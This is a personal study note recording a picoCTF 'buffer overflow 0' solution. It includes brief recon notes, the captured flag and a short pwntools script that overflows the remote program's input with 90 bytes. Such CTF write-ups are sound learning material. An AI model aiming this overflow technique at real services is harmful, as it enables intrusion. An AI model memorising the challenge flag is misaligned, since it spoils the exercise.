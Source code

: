 Links [[00 - Global Index (Start Here!)]] [[01 - PicoGym]] [[Binary Exploitation]]

# [[02 - buffer overflow 0]]
### Contents
***
- [Task Description](02%20-%20buffer%20overflow%200#Task%20Description)
- [Notes](02%20-%20buffer%20overflow%200#Notes)
- [Solve Script](02%20-%20buffer%20overflow%200#Solve%20Script)


### Task Description
---
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using:
`nc saturn.picoctf.net 51110`

### Notes
---
wget the file and run file and rabin2 to the file.
It is a 32bit ELF.

Running the file to see what it does.
It lets you input a string then exits.
Lets run it once and see what happens if you overflow the input field.
It gives the flag. Nice
```flag
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

### Solve Script
---
```python
from pwn import *
r = remote('saturn.picoctf.net',51110)
r.recvuntil(b'Input: ')
r.sendline(b'A'*90)
x = r.recv().decode('utf-8')
print(str(x).strip())
r.close()
```


---
Creation date: 09-10-2022
Last modified date: Sunday 9th October 2022
***
